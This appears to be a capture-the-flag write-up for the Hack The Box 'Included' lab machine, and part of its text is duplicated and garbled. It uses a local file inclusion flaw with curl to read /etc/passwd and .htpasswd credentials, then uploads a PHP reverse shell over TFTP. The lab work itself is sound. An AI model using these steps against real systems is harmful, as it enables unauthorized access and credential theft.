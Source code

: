 ```

# Nmap done at Mon Feb 21 17:40:12 2022 -- 1 IP address (1 host up) scanned in 1082.86 seconds
```

So far we have a web server and a TFTP server.

On port 80/TCP we get a simple web page vulnerable to LFI (Local File Inclusion).

We grab `.htpasswd`:

```
mike:Sheffield19
```

and of course `/etc/passwd```
mike:Sheffield19
```

and of course `/etc/passwd`

```
# curl -L http://10.129.88.142/index.php?file=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
mike:x:1000:1000:mike:/home/mike:/bin/bash
tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin
```

(from this we can path for TFTP uploads).

We put a reverse PHP shell through TFTP:

```
root@kaligra:/opt/htb-startingpoint/Included# tftp 10.129.88.142
tftp> put php-reverse-shell.php
Sent 5685 bytes in 0.7 seconds
tftp> bye
```

```